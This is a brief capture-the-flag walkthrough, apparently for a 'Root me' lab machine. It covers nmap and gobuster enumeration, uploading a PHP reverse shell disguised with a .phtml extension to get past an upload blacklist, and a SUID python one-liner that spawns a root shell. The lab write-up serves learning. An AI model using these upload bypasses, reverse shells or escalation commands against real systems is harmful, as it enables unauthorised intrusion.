 # Root me

## Enumeration

```bash
export IP=10.10.2.228
nmap -A -v $IP -oN scans/nmap.log
```
![](images/image1.png)

### Enumerate web server with gobuster
```bash
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -X php,txt,html,js
```
![](images/image2.png)

We can upload files to **/panel** and check them in **/uploads** <br>

Use php-reverse-shell.php

```bash
git clone https://github.com/ivan-sincek/php-reverse-shell.git
```
or

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

The website has a server side filter apparently using an extension blacklist and **.php** is banned... BUT ! **phtml** is not, fool the content filtering with this extension and get a shell by calling it from <url>http://10.10.2.228/uploads</url> <br>


### Privilege Escalation

```bash
find / -perm -u=s  2>/dev/null
find / -perm -g=s  2>/dev/null
```
![](images/image3.png)

From gfobins `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![](images/image4.png)
